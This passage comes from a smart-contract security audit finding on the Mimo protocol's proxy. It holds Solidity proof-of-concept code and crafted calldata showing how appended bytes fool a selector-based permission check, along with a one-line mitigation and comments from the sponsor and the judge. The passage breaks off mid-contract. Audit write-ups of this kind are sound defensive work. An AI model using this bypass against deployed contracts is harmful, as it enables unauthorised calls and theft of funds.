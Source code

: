     contract PoC {
        bytes4 public signatureWithPermision = bytes4(0xffffffff);
    
        // Call this function with calldata that can be prepared in `getAttackerCalldata`
        function execute(address target, bytes calldata data) external {
            bytes4 selector;
            assembly {
                selector := calldataload(data.offset)
            }
    
            require(selector == signatureWithPermision);
    
            require(data.length == 0);
        }
    
        // Function that prepare attacker calldata
        function getAttackerCalldata() public view returns(bytes memory)  {
            bytes memory usualCalldata = abi.encodeWithSelector(IMIMOProxy.execute.selector, msg.sender, new bytes(0));
            return abi.encodePacked(usualCalldata, bytes32(signatureWithPermision));
        }
    }

### [](#recommended-mitigation-steps-3)Recommended Mitigation Steps

Add `require(data.length >= 4);`.

**[RayXpub (Mimo) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1210479234):**

> We were not able to recreate the provided POC. The explanation is also incomplete - we don’t see how an attacker could bypass the permissions check through providing extra calldata in a signature. Please provide more details, or a working POC, on how the extra data can bypass the permissions check.

**[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1221562576):**

> This POC looks valid to me.
> 
> Basically what the warden mean is if you construct the calldata like execute(some\_addr, "") + 0xffffff
> 
>     0x1cff79cd0000000000000000000000005b38da6a701c568545dcfcb03fcb875f56beddc400000000000000000000000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000000000000^ffffffff
> 
> `data.offset` would be at ^  
> and `calldataload(data.offset)` would read 0xffffff

**[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1222005782):**

> This might be clearer
> 
>     pragma solidity ^0.8.0;
>     
>     contract PoC {
>         bytes4 public signatureWithPermision = bytes4(0xdead1337);
>     
>         // Call this function with calldata that can be prepared in `getAttackerCalldata`
>         function execute(address target, bytes calldata data) view external returns(bytes memory) {
>             bytes4 selector;
>             assembly {
>                 selector := calldataload(data.offset)
>             }